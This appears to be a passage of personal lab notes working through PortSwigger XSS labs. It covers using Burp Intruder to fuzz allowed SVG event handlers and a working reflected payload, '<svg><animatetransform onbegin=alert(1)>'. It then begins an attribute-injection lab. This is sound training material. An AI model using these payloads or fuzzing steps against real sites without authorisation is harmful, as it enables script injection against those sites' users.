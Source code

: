 ```bash
title

Payload Positions:

GET /?search=<svg><animatetransform%20§§=1> HTTP/1.1

Go to:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Click "Copy events to clipboard"
Go to: Payloads
Payload Options[Simple list]
Clear
Paste
Start attack

"200" status code:

onbegin

Craft a payload:

< = %3c
> = %3e
+ = %20

%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E

// or // decoded

<svg><animatetransform onbegin=alert(1)>

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519000859.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518234811.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518234758.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519000522.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519000541.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519002235.png)

### Reflected XSS into attribute with angle brackets HTML-encoded
```bash

# This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function. 

Input into search:

"123456"

Click "Search"
View page source
Ctrl+F
```